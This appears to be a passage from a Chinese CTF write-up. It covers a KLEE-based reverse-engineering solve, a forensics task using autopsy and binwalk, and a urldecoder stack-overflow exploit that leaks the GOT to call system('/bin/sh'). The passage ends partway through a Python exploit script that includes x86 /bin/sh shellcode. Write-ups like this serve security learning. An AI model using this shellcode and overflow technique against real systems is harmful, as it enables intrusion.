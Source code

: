 ```
<       p[0] = a;
<       p[1] = b;
<       p[2] = c;
<       p[3] = d;
<       p[4] = e;
<       p[5] = f;
---
>       p[0] = GETC();
>       p[1] = GETC();
>       p[2] = GETC();
>       p[3] = GETC();
>       p[4] = GETC();
>       p[5] = GETC();
560,561c554
<                       putchar(p[194]);
<                       klee_assert(0);
---
>                       PUTC(p[194]);
573c566
<                       putchar(p[7]);
---
>                       PUTC(p[7]);

```

[然后交给KLEE跑就可以啦](https://asciinema.org/a/b1nhhdjrtit0vf8wx0eusbuy9)。

最终flag即为`1mfLag`，然而一开始可能是因为放错flag了吧，并不接受这个flag。发邮件问之后被要求重新提交 :<


## `200` `repartition`

两个文件都特别小，autopsy提取未分配空间，binwalk在其中一个的最后发现了rar，因为文件特别小直接内联了和record写在一起的，复制出来就是完整的，附近翻一翻还可以找到secretpass.txt ”梅花香自苦寒来“。


## `200` `urldecoder`

程序中读入可以读入\x00字符，并且长度不限制，但是中途会有个strlen的判断去检查输入的长度，于是可以用\x00使得strlen的判断过掉，然后后面解析的时候，为了防止\x00导致解析中断，可以将\x00放在%后，这样就会被直接跳过，从而实现栈溢出。

然后控制程序输出GOT表后重新开始，再来一次溢出，根据算出的system和/bin/sh的地址弹shell。

```python
#!/usr/bin/env python
#encoding:utf-8

import zio
from time import sleep

def NOPS(n):
    return 'A' * n

def LEFT_PAD(s, n):
    return NOPS(n - len(s)) + s

def RIGHT_PAD(s, n):
    return s + NOPS(n - len(s))

DELAY = 1
JMP06 = '\xeb\x06'
SHELLCODE = "j\x0bX\x991\xc9Rh//shh/bin\x89\xe3\xcd\x80"

def RAW_WITH_DELAY(s):
    sleep(DELAY)
```